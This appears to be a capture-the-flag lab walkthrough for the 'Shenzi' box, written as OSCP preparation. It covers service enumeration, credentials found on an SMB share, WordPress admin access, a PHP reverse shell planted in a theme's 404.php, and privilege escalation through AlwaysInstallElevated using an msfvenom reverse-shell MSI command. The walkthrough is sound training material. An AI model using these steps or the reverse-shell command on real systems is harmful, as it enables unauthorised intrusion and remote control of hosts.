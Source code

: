 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Shenzi
tags: ["Wordpress", "theme", "AlwaysInstallElevated"]
---
```

**Start 10:24 06-05-2025**

---
```
Scope:
192.168.145.55
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV shenzi -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| tls-alpn: 
|_  http/1.1
| http-title: Welcome to XAMPP
|_Requested resource was https://shenzi/dashboard/
445/tcp   open  microsoft-ds? syn-ack
3306/tcp  open  mysql         syn-ack MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 21/TCP - FTP

![](../../../assets/d6a65c435b7188b93fcc2f8112d42048.png)


### 80/TCP - HTTP

![](../../../assets/4ea347fd938ac120d2e91290efa74276.png)

I tried **PHPInfo** however it wouldn't load. I also tried **phpMyAdmin** but it gave me a `403 Forbidden`:

![](../../../assets/969ddd938ed2692e5392076cf3357628.png)

### Feroxbuster

![](../../../assets/c95df2298becbadc2ce039d8846bf431.png)

I got a few names of the employees:

![](../../../assets/4f27c87fab71b977467d5139c9a721c8.png)

We can throw them into `username-anarchy` and create a wordlist of possible username combinations.


### 443/TCP - HTTPS

:::note
I ran `feroxbuster` here as well, but got the same exact results as on [[#80/TCP - HTTP#Feroxbuster]]
:::

![](../../../assets/0d540ec6e3da07ef4d1e865286bb0d64.png)

On this port I was in fact able to check out the `phpinfo.php` page, let's see whether we can find anything juicy.

![](../../../assets/14bf04004cf34b28e539d55d06ab0682.png)

`allow_url_include` was turned `Off`, meaning **RFI** is not possible. 

However the following functions have no value:

![](../../../assets/907264f93efba7ce5b597c711c9170cb.png)

Meaning **LFI** is LIKELY still possible, we just need to find out where and how.


### 445/TCP - SMB
### Enum4linux-ng

I started off with `enum4linux-ng`:

![](../../../assets/26e6304ad388ddb923ce11013d626029.png)

![](../../../assets/b80cbb827b613ba3c5c0675710e5d3b1.png)

We see it's running on **Windows Server 2019** or **2016**.

Let's check out the SMB port.

### smbclient

![](../../../assets/6d9d316ec3f45f4ea84eba858ce5e109.png)

Nice, we find a `passwords.txt` file.

![](../../../assets/e2976ac72ec104202b90d7b783ac9ede.png)

We got a bunch of credentials, we should add all these to a `users.txt` and `passwords.txt` file so we can use them for password spraying.

## Hidden WordPress Endpoint

So where do we go from this? We found **WordPress** creds but no `/wordpress` endpoint, so does this mean there's a hidden endpoint that `feroxbuster` didn't find?

I decided to try out `/shenzi` since it's the name of the box and lo and behold:

![](../../../assets/f52580a6d13d010df4c55793e7c64375.png)

Where there's a wordpress site, there's a `/wp-admin` login page usually where we could try out the found creds.

![](../../../assets/855278e7eb6401b029d16b79421cf935.png)

Indeed there is.

![](../../../assets/91338b623b782ae41a9c26e435c5c1e7.png)

I try out the previously found creds and it worked!

![](../../../assets/f1c12be54d042d6a10ad67140879bcbb.png)

![](../../../assets/8092ac256e2e2d44ff47258d530d1894.png)

### Plugin reverse shell - FAIL

I'll try to get a reverse shell by uploading a malicious plugin:

![](../../../assets/fbbae5708ccdc571941aac0b592436a3.png)

![](../../../assets/33eef1ece6ac91370b4350aedf7040b5.png)

![](../../../assets/c528c7bb45a7f0c7c53517fbc7a32ee3.png)

Cool, let's instead try it with a **Theme** then.

### Theme reverse shell

We'll head on over to **Appearance** -> **Theme Editor** -> **404.php**:

![](../../../assets/c759f60be6d42712e3f8c063c00a4049.png)

We'll select the `php-ivan` one on revshells

![](../../../assets/adfb9f27da67145c7d42991bc271e917.png)

Click **Update File**:

![](../../../assets/6968bfb0d1d1369ae0297fd3a26b17fb.png)

## Foothold
### Shell as Shenzi

In order to activate our reverse shell we will now head on over to the following URL:

```
https://shenzi/shenzi/themes/twentwenty/404.php
```

Once we click enter our reverse shell should fire:

![](../../../assets/2de5c6fc1e1d342979a7f4aa9640def0.png)

We will now go ahead and get the first flag.

### local.txt

![](../../../assets/3e2179554fef103b99c945ffe15583ce.png)

## Enumeration

![](../../../assets/1fd2a2404f6da6ebbace4a7b6ea92f85.png)

![](../../../assets/0f749ad62013ad2a57db5958965d2e90.png)

Time to transfer `winPEAS` and do some auto enum:

![](../../../assets/65e55b2b6685a8042c4132c368741d09.png)

![](../../../assets/34b0046f3f4db6945c01ac47cb423d1c.png)

We find *shenzi*'s hash:

![](../../../assets/77d3ede5ed2ede5013bfe367933fa66c.png)

:::important
I then found out about this super important part:
:::

![](../../../assets/de8e1bf9d7c48468f66f38c399afb550.png)

I looked this up on [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html) and found the following on it:

![](../../../assets/c988d7d1c39c93f9207120b699f9a950.png)

## Privilege Escalation
### MSI shell

This was pretty straightforward and super easy:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f msi > shell.msi
```

![](../../../assets/b0ea8901bda0d6a6cf1a076c8e0c29d5.png)

Once transferred I went ahead and executed it and got the shell, ez pz!

### proof.txt

![](../../../assets/6b82ae2c80e3f68bd8c937c60e68bcd9.png)

---

**Finished 12:06 06-05-2025**

[^Links]: [[OSCP Prep]]
